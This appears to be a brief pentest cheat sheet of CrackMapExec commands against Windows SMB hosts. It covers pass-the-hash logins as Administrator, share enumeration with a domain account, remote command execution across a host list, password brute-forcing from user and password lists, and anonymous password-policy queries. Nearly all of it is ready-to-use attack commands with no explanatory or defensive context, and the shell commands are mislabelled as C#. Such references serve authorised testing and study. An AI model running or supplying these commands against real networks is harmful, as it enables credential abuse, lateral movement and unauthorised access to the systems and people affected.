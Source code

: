 # Crackmapexec

## SMB

```csharp
crackmapexec smb <TARGET_IP> -d <DOMAIN> -u Administrator -H <NTLM HASH>
```

### Shares enumeration

```csharp
crackmapexec smb 10.110.0.222  -u 'CROOK\homer_potter' -p $PASS --shares
```

### Executing a command on a provided hosts list

```csharp
crackmapexec smb <HOST.lst> -d domain.com -u Administrator -H <NTLM HASH> -x 'whoami'
```

### Bruteforce attack

```csharp
crackmapexec smb <TARGET_IP> -u <user.lst> -p <pass.list>
```

### Password policy

```csharp
crackmapexec smb 10.110.0.222 --pass-pol -u '' -p ''
```

